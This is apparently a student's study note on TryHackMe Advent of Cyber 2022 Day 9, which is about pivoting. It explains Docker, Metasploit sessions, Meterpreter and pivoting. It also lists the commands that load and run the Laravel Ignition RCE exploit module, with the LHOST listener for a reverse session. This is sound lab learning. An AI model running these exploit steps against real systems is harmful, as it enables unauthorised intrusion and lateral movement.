 **Title:** Day 9 - THM 2022
**Tags:** [[Advent Cyber 2022]]
**Topics:** #TryHackMe #Pivoting

---
# Concepts
## Docker
Package applications and the associated dependencies into a single unit called “image”. This image can be shared and run as a container (Locally or remotely on a production server).
Common wait to know if the application is a docker container is to verify the existence of a `.docker.env` file.

## Metasploit
Powerful penetration testing tool for gaining initial access to systems. You can also perform post-expoiltation and pivoting to other applications and systems.

### Metasploit session
After exploiting a remote target with a Metasploit module, a session is often opened by default. These sessions are Command Shells or Meterpreter session (Allow command execution).

```Metasploit Console
# view sessions
sessions

# upgrade the last opened session to Meterpreter
sessions -u -1

# interact with a session
sessions -i session_id

# Background the currently interactive session, and go back to the Metasploit prompt
background
```

## Meterpreter
Advanced payload that provides interactive access to compromised system. Can run commands on remote target, including uploading/downloading files and pivoting.

```Meterpreter Commands
# Get information about the remote system, such as OS
sysinfo

# Upload a file or directory
upload local_file.txt

# Display interfaces
ipconfig

# Resolve a set of host names on the target to IP addresses - useful for pivoting
resolve remote_service1 remote_service2
```

## Pivoting
Once a system is compromised, it can allow the attacker to find more systems on the network and exploit them. We can use nmap or arp-scan to find more machines and services.
![[Pasted image 20221210101259.png]]


## Using Metasploit
1. Open Metasploit with `msfconsole` command.

2. Select the most useful Metasploit module for this attack (laravel).
```Metasploit
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

3. Now you can view the options, set options and run the module.
```Metasploit Commands
# View the available options to set
show options

# Set the target host and logging
set rhost MACHINE_IP
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

